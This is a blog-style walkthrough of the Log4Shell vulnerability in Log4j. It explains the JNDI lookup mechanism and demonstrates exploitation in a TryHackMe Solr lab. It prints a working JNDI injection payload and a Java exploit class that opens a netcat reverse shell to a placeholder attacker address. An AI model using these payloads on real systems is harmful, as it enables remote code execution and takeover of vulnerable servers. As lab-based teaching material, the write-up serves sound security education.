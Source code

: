 # Introduction

Log4j is a logging framework for Java. A logging framework is better than just printing the logs with a print statement because you don't need to comment the print statements. You just need to maintain a configure file which tells what type of logs to store and write the code with different log levels as:

```
logging.ERROR("error");
logging.WARN("warning");
```

Now a logger logs everything. Every interactions with the application along with the time and ip address. But the vulnerability in log4j happens when the attacker can craft or manipulate what is logged. Let say it is logging the username and the username is like this

![](/blogs/blog-img/log4j-1.jpg)

Now that username is the actual format used for RCE using log4j. The exploit is:

```
${jndi:ldap://ATTACKER-SERVER/x}
```

The exploit can be broken into:

1. log4j parses the command and sends a ldap request to ATTACKER-SERVER via jndi.
2. The first ATTACKER-SERVER then points to another attacker controlled server which is hosting a malicious Java code.
3. The victim requests the malicious code and executes it, leading to RCE.

The process can be visualized with the following figure by [GovCERT](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)
![](/blogs/blog-img/log4j-2.png)

The vulnerability was first reported to Apache on 24th November 2021 and publicly announced on 9th December 2021. Many large organizations are affected by this CVE which includes Amazon, Google, Tencent and others. You can find the list [here](https://github.com/YfryTchsGD/Log4jAttackSurface)

# Proof of Concept

We will be using the TryHackMe Solr room for this. The victim machine is running Apache Solr 8.11.0, which has this vulnerability. First I am creating a ldap Reference server. The Reference server will point to another server which will serve the malicious java code. Both the server are running on same machines but different ports.

For ldap reference server, we will use [marshalsec](https://github.com/mbechler/marshalsec). It will serve on port 1389 and point to port 8000. Here is the screenshot
![](/blogs/blog-img/log4j-3.png)

Now in port 8000, the compiled class of the following java code is served.
{{< highlight java >}}
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
{{< /highlight >}}
The code just sends a reverse shell to the attacker.

Now as we are interacting with the victim server using curl and passing the exploit as a parameter, it is getting executed and we are getting the reverse shell from the server.

![](/blogs/blog-img/log4j-4.gif)

# Conclusion

The CVE have been patched in log4j update by disabling jndi by default. [HuntresLabs scanner](https://log4shell.huntress.com/) can be used to check for Log4Shell vulnerability in your app.

Some of the resources I used to learn about this:

- https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
- https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation
- TryHackMe - Solar, exploiting log4j Room
